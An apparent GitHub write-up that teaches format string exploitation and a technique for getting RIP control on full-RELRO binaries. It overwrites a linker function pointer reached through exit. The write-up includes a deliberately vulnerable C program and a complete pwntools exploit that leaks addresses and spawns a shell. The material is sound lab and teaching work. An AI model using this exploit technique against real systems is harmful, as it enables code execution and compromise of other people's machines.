


# The danger of repetivive format string vulnerabilities and abusing exit on full RELRO

## Format string vulnerabilities
A format string vulnerability occurs when a user supplied input buffer is passed directly to printf as the format string argument.

An example of a simple format string vulnerability can be seen below

```C

#include <stdio.h>
#include <unistd.h>

int main(void){
    char buf[20];
    read(stdin,buf,19);
    printf(buf);
}
``` 
This vulnerability allows an attacker to send malicious input to the program, which printf will parse as a format string.

The reason this is dangerous is because printf has a multitude of different format string modifiers like %d, %c or %s.

Under normal circumstances the programmer would supply the variables for the printf format string in the arguments that follow, resulting in printf, printing the variables supplied in the specified format.

However when the buffer is user-controlled the attacker can specify the format string. The attacker can then send format specifiers like %p, %d, etc. to specify a value they would like to print out. 

When using a format specifier, printf will start printing values out, in order of calling convention.

In the case of Linux on x86_64 this would be the following (in order):

1. RDI
2. RSI
3. RDX
4. R10
5. R8
6. R9
7. [RSP]
8. [RSP+8]
9. etc.

In case of x86 on Linux, where all parameters are passed on the stack to printf, it would just be stack values which would be printed.

The problem is further exacerbated by format string modifiers like %s, which will first dereference a pointer, then print it. If the attacker-controlled string is found on the stack, the attacker can then leak arbitrary values for the whole process' memory space.

This can be done by using the %s modifier to point at a target value, then placing the address where the %s modifier would point to

The attacker is also able to specify what value they would like to print with the flag character `$`. An example of using the flag along with a modifier could be `%8$p`, which would print out the value at [rsp+16].

Being able to specify what you would like to leak is an extremely strong primitive on it's own, but the problems with format string vulnerabilities don't stop there, as there is a more dangerous modifier lurking, which we have yet to cover.

### From arbitrary read to arbitrary write, with %n

According to printf's manual page the `%n` modifier works as follows:

```
The  number  of  characters written so far is stored into the integer pointed to by the corresponding argument.  That argument shall be an int *, or variant whose size matches the (optionally) supplied integer length modifier.  No argument is converted.  (This specifier is not supported by the bionic C library.)  The behavior is undefined if the conversion specification includes any flags, a field width, or a precision.
```

This means by specifying `%n` in a payload, the attacker is now able to write values as well!

The `%n` modifier also works with the `$` flag to specify which memory location printf should write to, along with length modifiers like `h` and `hh` to specify the length of what is written (16 and 8-bits respectively).

An attacker would therefore be able to use printf to print x amount of characters, where x is equal to the value the attacker would like to write.

Since printf also has specifiers for padding on modifiers, an attacker does not even need a long format string, to write big values to an address.

They can instead specify the amount of padding they would like on what they print, to equal the address.

An example of an attacker writing the value 9224 to the pointer of the first address on the stack would therefore be:

`%9224c%6$n`

Therefore if the attacker's input is on the stack and a format string vulnerability is present, the attacker now has arbitrary read and write.

If the attacker's input is not on the stack, but for example, on the heap, they would still have read and write primitives, although these primitives would not be arbitrary.

## Differences between full and partial relative relocation read-only

Relative relocation read-only (from now on referred to as RELRO) is a mitigation technique implemented in the GNU compiler, libc and linker to make it harder for an attacker with an arbitrary write to gain control of the instruction pointer (from now on referred to as RIP).

To understand how both full RELRO and partial RELRO works, we will need to cover some basics, about how symbols in shared libraries are resolved during runtime.

The following section will explain how this works with the Linux ELF format, but may differ between operating systems and compilers. For clarity's sake this will roughy cover how the Procedural Linkage Table and the Global Offset Table works on the Linux ELF format, using the GNU linker and libc.

### The Global Offset Table
The Global Offset Table (from now on referred to as GOT) is a table containing all dynamically linked functions. 

If the binary is linked with a shared object, the GOT will contain pointers to the functions used from the shared object.

Dependent on whether the binary uses lazy-loading or not, the functions will either be resolved the first time the function is called or in the beginning of the runtime.

### The Procedural Linkage Table
The Procedural Linkage Table (from now on referred to as PLT) is a table of instructions to call functions found in the global offset table.


#### Lazy-loading vs. Eager-loading
With lazy loading, the first time a function is called, the pointer inside the GOT contains the next address of the PLT, which will call the linker, asking it to resolve the function. The linker will then resolve the address of the function inside the shared object, save the address of the function in the GOT and call the function.

On subsequent calls of the function, the address will now be saved inside of the GOT and will now be called directly, therefore only calling the linker once for each function.

If the binary is eager-loaded, the linker will resolve all functions in the shared object, before starting the main program.

A function graph of how the PLT and GOT works can be seen here:

Source: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/

If eager-loading has been specified at compile time, the binary's GOT will often be read-only (as there is no reason for it to be read and writable), although this is not always the case.

### Partial RELRO vs. full RELRO
If a binary uses partial RELRO the binary is usually lazy-loaded and the GOT will be read and writable.

If a binary uses full RELRO the binary is always eager-loaded and the GOT will be read only.

If only partial RELRO is used, an attacker with arbitrary write, can overwrite functions inside the GOT with an arbitrary address, gaining RIP control. This is not possible with full RELRO as the GOT is read-only.

Therefore gaining RIP control from an arbitrary write is seen as significantly harder on full RELRO than it is on partial RELRO.

## Abusing exit

The differences between full and partial RELRO has now been covered, along with format string vulnerabilities, this next section will cover a new way for an attacker to gain RIP control on full RELRO, using a format string vulnerability on a binary which is linked with GLIBC 2.31.

### The exploitable program

The exploitable program has all currently available protections from gcc enabled, which includes the following:

1. ASLR
2. NX (Non-eXecutable stack)
3. PIE (Position Independent Executable)
4. Stack protection/stack canary
5. Full RELRO (full relative relocation)
6. Fortification level 2

The gcc version used is Debian 10.2.1-6.
The GLIBC version used is Debian GLIBC 2.31-13+deb11u3, but has also been tested on Ubuntu libc version 2.31 and 2.27.

The exploitable program is as follows:

```C
#include <stdio.h>
#include <unistd.h>

//gcc format_vuln.c -zrelro -znow -D_FORTIFY_SOURCE=2 -o format_vuln

int main(void){
    int done = 0;
    char buf[0x20];

    while(done == 0){
        int choice = 0;
        printf("What would you like to do?\n");
        printf("1. Enter a format string\n");
        printf("2. Exit the loop\n");
        printf("> ");
        scanf("%d",&choice);

        if(choice == 1){
            printf("\nPlease enter your input:\n");
            read(0,buf,0x1f);
            //printf vulnerability here
            printf(buf);
        }
        else{
            done = 1;
            break;
        }

    }
}
```


### The setup
The next section will cover some debugging and exploitation. The framework used for interacting with the program, including sending and receiving information is pwntools, and the debugger used is pwndbg. 

A short description of pwntools (taken from their Github):
```
Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.
```

A short description of pwndbg (taken from their Github):
``` 
pwndbg (/poʊndbæg/) is a GDB plug-in that makes debugging with GDB suck less, with a focus on features needed by low-level software developers, hardware hackers, reverse-engineers and exploit developers.
``` 

pwntools can be installed with pip using the following commands:
```
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

pwndbg can be installed by using these commands:
```
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
./setup.sh
```

### Explotation

#### Step 1. Broilerplate code
First we need some broilerplate code, for interacting with the program. I use the following broilerplate code, to start the program with a debugger attached along with having pwntools handle I/O.

I also include a gdbscript to break inside of main

```python
from pwn import *

gdbscript = '''
b *main
c
'''

io = gdb.debug("./format_vuln",gdbscript=gdbscript)

io.interactive()
```

#### Step 2. Leaking
Since we can call printf multiple times with our input, we can start off by leaking some interesting stack values.

We can break at the printf and check how the stack looks, when we're about to call it:


In this case there are 2 pointers which are interesting, which we can use to leak the PIE base of the program (__libc_csu_init and _start)

However, we are still missing a pointer to libc, but can find one if we inspect further down the stack:


Since the top value of the stack would be printed with %6$p we can count how many steps we would have to go down the stack, to hit the two differnt pointers.

To hit `__libc_csu_init` we would need to go 4 values down from the top of the stack.

To hit `__libc_start_main+234` we would need to go 9 values down from the top of the stack

This means we can leak `__libc_csu_init` with `%10$p` (4+6=10) and leak `__libc_start_main+234` using `%15$p` (9+6=15)



Using pwntools we can now receive the leaks and calculate the base addresses of the binary itself along with the base address of libc, defeating PIE and ASLR.

The amount to subtract from the leak to get the base memory address of both leaks, is found by checking the distance between the leak and base address inside of gdb. The difference between these two will always be the same.

```python
#Function to get to the printf and send a format string
def send_format_string(fmt_string):
    io.recvuntil(b'2. Exit the loop\n')
    io.sendline(b'1')
    io.recvuntil(b'Please enter your input:\n')
    io.sendline(fmt_string)

send_format_string(b'%10$p %15$p') #Format string used to leak
leaks = io.recvline()[:-1].split(b' ') #cut off the newline at the end of the input and split it at the space

#Convert to integers
pieleak = int(leaks[0],16)
libcleak = int(leaks[1],16)

#Calculate base address
piebase = pieleak - 0x1260
libcbase = libcleak - 0x26d0a

log.info(f"PIE BASE: {hex(piebase)}")
log.info(f"LIBC BASE: {hex(libcbase)}")
```

### Step 3. Creating arbitrary 64-bit writes
Once the base address is calculated we can now create a function to make arbitrary writes.

Since %n can only save as ints, the max value we would be able to write anywhere at a time, would be 32-bit.

However printing something along the lines of 0x10000000 would take a very long time, and is not really efficient. So since we have unlimited format string calls, we will first create a function to make arbitrary 8bit writes, then extend it to make arbitrary 64-bit writes:

```python
def arb_write_8(addr,data):
    payload = b''
    if data == 0: #If the amount is 0, we shouldn't print anything before %n
        payload = f"%10$hhn".encode()
    else:
        payload = f"%{data}c%10$hhn".encode()
    
    #Calculate the padding for us to be able to put a pointer afterwards. The fmt_string for 8bit arbitrary write should never go over 16.
    padding = b'A'*(16-len(payload))
    payload+=padding

    #Add the pointer we want to write to
    payload+=p64(addr)

    # Send the payload
    send_format_string(payload)

def arb_write_64(addr,data):
    #Calculate all bytes to write
    to_write = [
        data & 0xff,
        (data >> 8) & 0xff,
        (data >> 16) & 0xff,
        (data >> 24) & 0xff,
        (data >> 32) & 0xff,
        (data >> 40) & 0xff,
        (data >> 48) & 0xff,
        (data >> 56) & 0xff,
        ]
    #Write everything one byte at a time
    for i in range(0,len(to_write)):
        arb_write_8(addr+i,to_write[i])
``` 

Once that is done, we can test the function by writing to an arbitrary read-writable part of memory.

In this case I chose address 0x4040, since it is easy to check and decided to write the value 0xff00ff00ff10ff01 as it contains all different types of 8-bit payloads, we could end up writing:

```python
testaddr = 0x4040 + piebase

arb_write_64(testaddr,0xff00ff00ff30ff01)
```

As can be seen from the screenshot below, the write was succesful:


### Step 4, messing with exit and linker

Since the binary is full RELRO we are not able to write to the GOT.

However when the program breaks from the loop it will internally call exit, inside of `__libc_start_main`.

The exit internals calls a function called `run_exit_handlers`, which calls `dl_fini`, which calls `rtld_lock_default_lock_recursive`. 

`rtld_lock_default_lock_recursive` is a function inside of GLIBC, which is found in a readable and writable section of the linker. If we overwrite the address of where this is found, we can gain RIP control.

The function is loaded and called at `dl_fini+105` in this version of libc, but may differ dependent on libc version. We can find the address of where the function is loaded from, inside the linker, by checking what is located at the RIP relative call address:


We can then calculate what we need to add to the base address of libc, to get this offset. This is only possible, because the linker is always directly adjacent to the last page of libc.

Once we have found the address compared to the libc base, we can overwrite it with our arbitrary write primitive.

```python
rtld_funcptr_offset = libcbase + 0x217f68

arb_write_64(rtld_funcptr_offset, 0xdeadbeef)
```

Once we exit the program now, we will jump to 0xdeadbeef:


### Step 5. Popping a shell

For spawning a shell, the perfect way would be finding an address we can return to, which instantly will spawn /bin/sh

[one_gadget](https://github.com/david942j/one_gadget) is a tool for finding addresses, which accomplish this.

Unfortunately one_gadget, will not be useful here as way too many of our registers are cluttered, for us to be able to fullfill any of the constraints.

However, when manually searching libc, a useful gadget showed up, which looks like this:


Our register state before calling our gadget looks like the following:



Since the address inside of r14 is a readable and writable part of the binary, we can write /bin/sh into that address, then use that gadget to call a shell.

After testing the first time, it also seems like it subtracts 1 of the first byte if the address is populated. This is not an issue, as we can just specify a `0` instead of a `/`, when writing /bin/sh and it will fix it into the right string:

```python
rtld_funcptr_offset = libcbase + 0x217f68
one_gadget = libcbase + 0x000cb7db

r14ptr = libcbase + 0x1c0ae8

arb_write_64(r14ptr,u64(b'0bin/sh\x00'))

arb_write_64(rtld_funcptr_offset, one_gadget)
```

And this now spawns a shell!


## Full exploit

The full exploit along with the test program, compiled and source code can be found under the resources folder in this repository.

The full exploit can also be seen below:

```python
from pwn import *

gdbscript = '''
b *main+173
b *_dl_fini+105
c
c 9
'''
io = gdb.debug("./format_vuln",gdbscript=gdbscript)
#io = process("./format_vuln")

#Function to get to the printf and send a format string
def send_format_string(fmt_string):
    io.recvuntil(b'2. Exit the loop\n')
    io.sendline(b'1')
    io.recvuntil(b'Please enter your input:\n')
    io.sendline(fmt_string)

def arb_write_8(addr,data):
    payload = b''
    if data == 0: #If the amount is 0, we shouldn't print anything before %n
        payload = f"%10$hhn".encode()
    else:
        payload = f"%{data}c%10$hhn".encode()
    
    #Calculate the padding for us to be able to put a pointer afterwards. The fmt_string for 8bit arbitrary write should never go over 16.
    padding = b'A'*(16-len(payload))
    payload+=padding

    #Add the pointer we want to write to
    payload+=p64(addr)

    # Send the payload
    send_format_string(payload)

def arb_write_64(addr,data):
    #Calculate all bytes to write
    to_write = [
        data & 0xff,
        (data >> 8) & 0xff,
        (data >> 16) & 0xff,
        (data >> 24) & 0xff,
        (data >> 32) & 0xff,
        (data >> 40) & 0xff,
        (data >> 48) & 0xff,
        (data >> 56) & 0xff,
        ]
    #Write everything one byte at a time
    for i in range(0,len(to_write)):
        arb_write_8(addr+i,to_write[i])

send_format_string(b'%10$p %15$p') #Format string used to leak
leaks = io.recvline()[:-1].split(b' ') #cut off the newline at the end of the input and split it at the space

#Convert to integers
pieleak = int(leaks[0],16)
libcleak = int(leaks[1],16)

#Calculate base address
piebase = pieleak - 0x1260
libcbase = libcleak - 0x26d0a

log.info(f"PIE BASE: {hex(piebase)}")
log.info(f"LIBC BASE: {hex(libcbase)}")

rtld_funcptr_offset = libcbase + 0x217f68 #Get the ptr we can use to jump
one_gadget = libcbase + 0x000cb7db #Grab one_gadget

r14ptr = libcbase + 0x1c0ae8 #The ptr that r14 points to when hitting our gadget

arb_write_64(r14ptr,u64(b'0bin/sh\x00')) #0 instead of / since it subtracts 1 from the first character

arb_write_64(rtld_funcptr_offset, one_gadget) #Overwrite the rtld function ptr

io.interactive()

``` 


